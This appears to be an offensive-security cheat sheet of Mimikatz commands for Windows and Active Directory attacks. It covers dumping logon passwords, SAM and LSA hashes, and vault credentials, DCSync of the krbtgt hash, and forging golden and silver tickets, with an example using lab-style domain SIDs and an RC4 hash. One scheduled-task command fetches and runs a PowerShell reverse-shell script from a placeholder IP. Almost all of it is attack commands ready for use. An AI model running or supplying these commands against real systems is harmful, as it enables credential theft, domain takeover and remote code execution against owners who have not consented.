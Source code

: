 https://github.com/gentilkiwi/mimikatz

```mimikatz
mimikatz.exe

# Elevate Privileges
privilege::debug

# Elevate privileges to SYSTEM by impersonation
token::elevate

# Dump logged on user and computer credentials
sekurlsa::logonpasswords 

# Retrieves credential from LSA
lsadump::lsa /patch

#
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\System SystemBkup.hiv

# Retrieves and displays password hashes of local user accounts.
lsadump::sam

# Extracts and displays password hashes from the provided backup hive files.
lsadump::sam SystemBkup.hiv SamBkup.hiv

# Requests and retrieves password hashes for the specified user from the DC.
lsadump::dcsync /user:krbtgt

# List credentials in CredentialManager
vault::list

# Dump credentials in CredentialManager - plaintext password
vault::cred /patch
```

### Golden Ticket
https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets
```
# Dump hashes - Get the krbtgt hash
lsadump::trust /patch -ComputerName ghost.htb

# Golden Ticket
kerberos::golden /ticket:aaa.kirbi /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498 /sids:S-1-5-21-4084500788-938703357-3654145966-519 /rc4:dae1ad83e2af14a379017f244a2f5297 /user:administrator /service:krbtgt /target:GHOST.HTB

# Use the DCSync feature for getting krbtgt hash. Execute with DA privileges
lsadump::dcsync /domain:CORP.GHOST.HTB /sid:S-1-5-21-2034262909-2733679486-179904498 /user:Administrator

# Check WMI Permission
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```

### Silver Ticket
https://adsecurity.org/?p=2011
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets

#### Make silver ticket for CIFS
Use the hash of the local computer
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:CIFS /rc4:<local computer hash> /user:Administrator /ptt"'
```

Check access (After CIFS silver ticket)
```
ls \\<servername>\c$\
```

#### Make silver ticket for Host
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'
```

Schedule and execute a task (After host silver ticket)
```
schtasks /create /S <target> /SC Weekly /RU "NT Authority\SYSTEM" /TN "Reverse" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1''')'"

schtasks /Run /S <target> /TN “Reverse”
```

#### Make silver ticket for WMI
Execute for WMI /service:HOST /service:RPCSS
```
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:HOST /rc4:<local computer hash> /user:Administrator /ptt"'

Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain> /sid:<domain sid> /target:<target> /service:RPCSS /rc4:<local computer hash> /user:Administrator /ptt"'
```

Check WMI Permission
```
Get-wmiobject -Class win32_operatingsystem -ComputerName <target>
```